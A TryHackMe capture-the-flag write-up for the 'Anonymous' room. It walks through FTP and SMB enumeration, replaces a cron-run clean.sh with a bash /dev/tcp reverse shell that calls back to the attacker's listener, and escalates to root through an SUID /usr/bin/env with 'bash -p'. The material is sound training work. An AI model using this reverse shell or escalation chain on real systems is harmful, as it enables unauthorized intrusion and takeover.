


# Anonymous

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

**Difficulty:** Medium

**Category:** Linux

**Description:** Not the hacking group

Additional Info: 



<details>
<summary> <h2> TLDR (Spoilers) </h2> </summary>

FTP was running on port `21` with anonymous login enabled. Inside a writeable directory, was a file `clean.sh` assumed to be running periodically from the log file `removed_files.log`. The `clean.sh` was replaced with a reverse shell, gaining a shell as `namelessone`. Checking files with SUID bits set revealed `/usr/bin/env` through which a root shell was spawned, compromising the system.

</details>

## Initial Reconnaissance

Nmap scan:

```
nmap -A -v <IP> -oN nmapresult.txt
```


There are 4 ports open: `21, 22, 139, 445`. Since FTP has anonymous login enabled, I checked that out first. Additionally, the directory `scripts` there is also writable. 

### Investigating FTP

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ ftp 10.48.138.121
Connected to 10.48.138.121.
220 NamelessOne's FTP Server!
Name (10.48.138.121:Mikayn): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
229 Entering Extended Passive Mode (|||36793|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||16016|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1075 May 25 06:18 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```

I downloaded the 3 files in my machine to check them out. The `clean.sh` is a script to delete temporary files, and it stores the output in `removed_files.log`. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`reads:

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

Too late buddy. 

`clean.sh` is probably being run automatically via a cronjob which causes the `removed_files.log` to contain the same output repeatedly. Since the directory is writeable, I could replace the `clean.sh` with a reverse shell. 

I kept it in mind and moved to `samba` to complete my enumeration. Nmap had given some additional info regarding samba.

```
Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-05-25T06:15:28
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2026-05-25T06:15:28+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Investigating Samba

The version is quite old `4.7.6-Ubuntu`. But more importantly, anonymous login is enabled here as well, as from the `account_used: guest` shown. 

Command: `smbclient -L //<IP>`

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ smbclient -L //10.48.138.121
Password for [WORKGROUP\Mikayn]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

`-L` lists the shares in the machine. There is a `pics` share. So I connected to that share. 

Command: `smbclient //<IP>/<SHARENAME>` 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ smbclient //10.48.138.121/pics
Password for [WORKGROUP\Mikayn]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 16:56:34 2020
  ..                                  D        0  Thu May 14 07:44:10 2020
  corgo2.jpg                          N    42663  Tue May 12 06:28:42 2020
  puppos.jpeg                         N   265188  Tue May 12 06:28:42 2020

                20508240 blocks of size 1024. 13303276 blocks available
smb: \> get corgo2.jpg
getting file \corgo2.jpg of size 42663 as corgo2.jpg (105.5 KiloBytes/sec) (average 105.5 KiloBytes/sec)
smb: \> get puppos.jpeg
getting file \puppos.jpeg of size 265188 as puppos.jpeg (476.9 KiloBytes/sec) (average 320.5 KiloBytes/sec)
smb: \> exit
```

It contains 2 images. I downloaded them on my machine. I checked if any files were embedded in the pictures using `binwalk` , but did not see anything so I proceeded with the reverse shell on FTP. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ echo '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' > clean.sh
```

Then I replaced this `clean.sh` with the one in the FTP directory. 

```
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||12047|)
150 Ok to send data.
100% |****************************************************|    51      461.15 KiB/s    00:00 ETA
226 Transfer complete.
51 bytes sent in 00:00 (0.47 KiB/s)
```

I started a listener on my machine and waited for the cronjob. But it did not connect even after a couple minutes. Then that means my assumption was false. 

I moved back to `samba`. This time, I used `enum4linux` which is an SMB enumeration tool. If it finds it, it will pull usernames, shares, and other group info. 

```
=======================================( Users on 10.48.138.121 )=======================================

index: 0x1 RID: 0x3eb acb: 0x00000010 Account: namelessone      Name: namelessone       Desc:

user:[namelessone] rid:[0x3eb]
```

There is a username `namelessone`, but nothing more. 

I was a bit stumped, but I went back to the FTP directory. When I uploaded my `clean.sh` previously, I only ran the listener after uploading because I forgot (oops teehee) and I forgot the `#! /bin/bash`. 

So I ran the listener first this time, added the shebang at the top, and then uploaded the same shell. 

And this time I got a shell. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<IP>] from (UNKNOWN) [10.48.138.121] 42044
bash: cannot set terminal process group (13809): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

The cronjob must have been running `clean.sh` without explicitely calling `/bin/bash`. So without the shebang, it did not know how to execute it. 

## Shell as namelessone

First and foremost, I claimed the user flag as usual. 

I noticed `27(sudo)` when doing ID so I checked what commands the user can run. 

```
namelessone@anonymous:~$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
```

I upgraded my shell to get a fully interactive shell with TTY and ran the same command again. 

```
namelessone@anonymous:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
namelessone@anonymous:~$ ^Z
[1]+  Stopped                    nc -nlvp 4444

┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/anonymous]
└─$ stty raw -echo; fg
nc -nlvp 4444

namelessone@anonymous:~$ which python3
/usr/bin/python3
namelessone@anonymous:~$
namelessone@anonymous:~$ sudo -l
[sudo] password for namelessone:
namelessone@anonymous:~$
```

It asks for a password, which is unfortunate since I dont have a password. `sudo -l` was a dissapointment, so I checked the next best thing: `SUID binaries`. 

Command: `find / -perm -4000 2>/dev/null` 


Everything is normal, except for `/usr/bin/env`. I dont normally see this with SUID binary set. 

I went straight to [GTFOBins](https://gtfobins.org/) to check possible ways to escalate. 



Wow I can directly spawn a shell using `env`. So I tried it. 

```
namelessone@anonymous:~$ /usr/bin/env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Sweet! Normally, linux does not allow a normal user to spawn a privileged shell like that. Even with SUID bit set, just doing `/bin/bash` would drop it down to the normal shell as a security measure.     `-p` tells linux to keep the privileges, which spawns the shell as root. 

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
REDACTED
```

And thats the machine compromised. This felt like one of the easier “medium” machines. 

---

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Ports `21, 22, 139, 445` open. |
| 2 | Investigate FTP | Anonymous login + Writeable directory |
| 3 | Look into `clean.sh`   | Output being saved periodically to another file `removed_files.log` |
| 4 | Replace `clean.sh`  with a reverse shell | Shell as `namelessone` + User flag |
| 5 | Check for SUID binaries | SUID bit set on `/usr/bin/env` |
| 6 | Spawn a shell using `/usr/bin/env`  | Root shell + Root flag |